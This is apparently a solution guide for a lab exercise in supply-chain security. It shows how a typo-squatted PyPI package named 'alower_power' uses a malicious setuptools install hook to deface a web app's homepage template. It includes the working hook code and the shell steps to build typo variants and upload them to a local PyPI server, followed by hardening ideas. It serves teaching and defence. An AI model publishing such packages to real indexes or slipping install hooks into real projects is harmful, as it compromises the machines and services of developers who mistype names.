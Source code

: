 ### Solution Guide — ex3: Typo-squatting to modify a live server file

#### Overview
The developer works directly in a production-like environment. When they mistype `flower_power` (f → a/b/c/d/e), they may install a typo-squatted package from the local PyPI. Our malicious package (`alower_power`) runs code during installation that overwrites the running app’s homepage template, clearly demonstrating impact.

#### What the attack does
- Package name: `alower_power` (typo of `flower_power`).
- On install, a custom `install` hook writes to `/app/templates/index.html`, first saving a backup at `/app/templates/index.html.bak`.
- Because the web container serves files from `/app`, the change appears immediately in the UI.

The core of the malicious logic lives in `solution/malicious-packages/alower_power/setup.py`:

```1:60:w2d3/exercises/ex3/solution/malicious-packages/alower_power/setup.py
from setuptools import setup
from setuptools.command.install import install
import os

class MaliciousInstall(install):
    def run(self):
        try:
            target_file = "/app/templates/index.html"
            backup_file = target_file + ".bak"
            HACKED_HTML = """<!DOCTYPE html>... (defaced page HTML) ..."""
            if os.path.exists(target_file) and not os.path.exists(backup_file):
                with open(target_file, "rb") as fsrc:
                    data = fsrc.read()
                with open(backup_file, "wb") as fdst:
                    fdst.write(data)
            os.makedirs(os.path.dirname(target_file), exist_ok=True)
            with open(target_file, "w", encoding="utf-8") as f:
                f.write(HACKED_HTML)
        except Exception:
            pass
        super().run()
```

#### Build the malicious package

```sh
cd w2d3/exercises/ex3/solution/malicious-packages/alower_power
python3 setup.py sdist
```

This creates `dist/alower_power-<version>.tar.gz`.

Optionally, duplicate this directory and rename for other nearby typos (`blower_power`, `clower_power`, `dlower_power`, `elower_power`) and rebuild each:

```sh
# Create additional typo-squatted packages
cd w2d3/exercises/ex3/solution/malicious-packages/
for typo in blower_power clower_power dlower_power elower_power; do
    cp -r alower_power $typo
    cd $typo
    # Update package name in setup.py
    sed -i "s/alower_power/$typo/g" setup.py
    python3 setup.py sdist
    cd ..
done
```

#### Upload to the local PyPI server using twine

Since students don't have direct access to Docker containers, use `twine` to upload the malicious package to the local PyPI server:

```sh
# First, make sure the PyPI server is running
cd w2d3/exercises/ex3/exercise
docker-compose up --build

# Upload the malicious package(s) using twine
cd ../solution/malicious-packages/

# Upload the main typo-squatted package
cd alower_power
twine upload --repository-url http://localhost:8080 dist/* -u ""  -p "" --verbose
```

The PyPI server should now serve the typo-squatted package alongside any legitimate packages.

#### What you should see
- Developer logs showing random c
ommands like `pip install alower_power ...`.
- When the typo hits `a`, install succeeds and the home page is defaced.
- Visit `http://localhost:5000`. The page shows the hacked banner.
- `GET /status` (or the “Refresh Status” button) lists any installed typo packages under “Typo-Squatting Packages Detected”.

Note: The malicious package will remain on the PyPI server until it's manually removed or the server is reset. In a real scenario, you would need administrative access to remove packages from PyPI.

#### Why this works
- The developer works “in production”: installing packages affects the live filesystem mounted by the web server.
- A typo-squatted package name avoids strict version pinning on `flower_power`.
- The `install` hook is a powerful execution point that runs with the privileges of the installer.

#### Hardening ideas
- Enforce allow-lists for package names and repositories.
- Use lockfiles/constraints and CI-only builds (no dev in prod).
- Disable arbitrary build/install scripts (PEP 517 isolated builds, `--only-binary=:all:` when possible).
- Use content trust/signing and SLSA provenance.


